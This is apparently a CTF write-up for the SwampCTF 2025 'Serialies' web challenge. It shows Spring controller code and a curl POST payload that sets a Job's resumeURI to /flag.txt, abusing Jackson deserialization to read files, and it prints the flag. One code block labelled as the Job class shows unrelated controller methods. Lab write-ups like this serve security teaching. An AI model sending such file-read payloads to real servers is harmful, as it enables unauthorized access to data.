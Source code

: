# 🐊 SwampCTF 2025 Writeup - [Serialies]

**Category:** [Web]  
**Points:** [20]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---
## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---

## 🔍 Recon

![[Pasted image 20250403002659.png]]
- 문제 웹 페이지와 소스코드 제공됨

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리

- [ ] 시스템 정보 수집
- [ ] 역직렬화 + 파일 읽기 취약점 유도

---

## 💉 Exploit

### 🛠️Step 1. 웹 페이지 접속 및 분석

![[Pasted image 20250403002722.png]]
```html
<html>
  <body>
    <h1>Whitelabel Error Page</h1>
    <p>
      This application has no explicit mapping for <code>/error</code>,  
      so you are seeing this as a fallback.
    </p>
    <div id="created">Wed Apr 02 02:18:16 UTC 2025</div>
    <div>
      There was an unexpected error (type=Not Found, status=404).
    </div>
  </body>
</html>

```

👉 별다른 정보 없음

### 🛠️Step 2. 소스코드 분석

📁 `\src\main\java\com\serialies\serialies\PersonController.java`
```java
...
@RestController
@RequestMapping("/api/person")
public class PersonController {

    private List<Person> persons = new ArrayList<>();

    @PostMapping
    public String createPerson(@RequestBody Person person) {
        if (person.getAddress() == null) {
            throw new IllegalArgumentException("Address is required");
        }
        if (person.getJob() != null) {
            try {
                person.getJob().init();
            } catch (IOException e) {
                throw new RuntimeException("Error", e);
            }
        }
        persons.add(person);
        return "Person has been created with ID: " + person.getId();
    }

    @GetMapping
    public List<Person> getAllPersons() {
        return persons;
    }

    @GetMapping("/{id}")
    public Person getPersonById(@PathVariable UUID id) {
        Optional<Person> person = persons.stream().filter(p -> p.getId().equals(id)).findFirst();
        if (person.isPresent()) {
            return person.get();
        } else {
            throw new RuntimeException("Person not found with ID: " + id);
        }
    }
}

```

- `/api/person` 경로 확인됨
- `POST` 요청 시 `job.init()` 호출이 핵심
```java
if (person.getJob() != null) {
    person.getJob().init();
}
```
### 🛠️Step 3. /api/person 경로 접속

![[Pasted image 20250403002800.png]]

페이지 접속 후 flag 값 획득 가능
하지만 해당 방법으로 푸는 것은 아니라고 판단 후 다시 문제를 확인 

### 🛠️Step 4. PersonController 분석

**POST 요청**
```java
...
@RestController
@RequestMapping("/api/person")
public class PersonController {

    private List<Person> persons = new ArrayList<>();

    @PostMapping
    public String createPerson(@RequestBody Person person) {
        if (person.getAddress() == null) {
            throw new IllegalArgumentException("Address is required");
        }
        if (person.getJob() != null) {
            try {
                person.getJob().init();
            } catch (IOException e) {
                throw new RuntimeException("Error", e);
            }
        }
        persons.add(person);
        return "Person has been created with ID: " + person.getId();
    }
```

**`init()`Job 클래스**
```java
    @GetMapping
    public List<Person> getAllPersons() {
        return persons;
    }

    @GetMapping("/{id}")
    public Person getPersonById(@PathVariable UUID id) {
        Optional<Person> person = persons.stream().filter(p -> p.getId().equals(id)).findFirst();
        if (person.isPresent()) {
            return person.get();
        } else {
            throw new RuntimeException("Person not found with ID: " + id);
        }
    }
}
```

- Job 객체가 `resumeURI` 값을 가지고 있고,
- `init()` 내에서 해당 경로의 파일을 열어봄 → **LFI 가능**

### 🛠️Step 5. Exploit

#### 📨 POST 요청
```
curl -X POST http://chals.swampctf.com:44444/api/person \
  -H "Content-Type: application/json" \
  -d '{
    "id": "11111111-1111-1111-1111-111111111111",
    "address": "somewhere",
    "job": {
      "resumeURI": "/flag.txt"
    }
}'
```

#### 🔎 GET 요청
```
curl http://chals.swampctf.com:44444/api/person/11111111-1111-1111-1111-111111111111
```

![[Pasted image 20250403002852.png]]
👉 flag 확인 성공

#### 🛠️ 사용한 도구
  - [ ] curl

---

## 🍪 Info Leakage or Gain

- Java Jackson 기반 역직렬화 취약점
- @class 타입을 안전하지 않게 사용

---

## 👑 Accessing the Flag

```
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}
```

---

## 🧠 Conclusion

- **안전하지 않은 직렬화 방법** + **파일 읽기 취약점**
- JSON을 통해 직렬화된 객체를 그대로 받아들임
- `resumeURI` 값을 기반으로 서버가 **파일 내용을 자동으로 읽음**

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_